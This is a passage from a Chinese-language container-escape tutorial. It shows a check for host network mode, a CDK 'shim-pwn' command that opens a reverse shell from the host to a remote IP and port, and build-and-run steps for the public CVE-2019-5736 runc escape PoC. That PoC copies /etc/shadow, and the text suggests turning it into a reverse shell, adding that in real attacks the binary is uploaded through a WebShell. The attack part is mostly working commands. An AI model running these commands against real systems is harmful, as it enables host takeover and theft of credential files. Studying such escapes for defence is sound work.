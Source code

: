     ```plain
    #判断是否使用 host 模式
    cat /proc/net/unix | grep 'containerd-shim'
    ```
    
    [![](assets/1711471711-e603f37e5ed5a2dbfb7d3db6d67647b1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20211230192346-f3f41b74-6962-1.png)
    
    ```plain
    #反弹宿主机的 shell 到远端服务器
    ./cdk_linux_386 run shim-pwn reverse 192.168.238.159 4455
    ```
    
    [![](assets/1711471711-8be470332bec539e61e53284cadc5c0b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20211230192418-06f92066-6963-1.png)  
    \#### CVE-2019-5736  
    当 runc 动态编译时，会从容器镜像中载入动态链接库，导致加载恶意动态库；当打开/prco/self/exe 即 runc 时，会执行恶意动态链接库中的恶意程序，由于恶意程序继承 runc 打开的文件句柄，可以通过该文件句柄替换 host 上的 runc。  
    此后，再次执行 runc 相关的命令，则会产生逃逸。

版本漏洞：  
docker version <=18.09.2  
RunC version <=1.0-rc6

利用过程：

```plain
#下载 POC
https://github.com/Frichetten/CVE-2019-5736-PoC

#编译
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build main.go
```

利用成功是将/etc/shadow 文件复制到/tmp/目录下

```plain
#将编译的 main 复制到 docker 容器中，实战是用 WebShell 上传
docker cp main name:/home
cd /home/
chmod 777 main
./main
#此时等管理员进入容器将触发：
![](https://xzfile.aliyuncs.com/media/upload/picture/20211230192525-2f3e2828-6963-1.png)
或将第 16 行改为反弹 Shell，获得宿主机权限。
![](https://xzfile.aliyuncs.com/media/upload/picture/20211230192551-3e8541e0-6963-1.png)
```
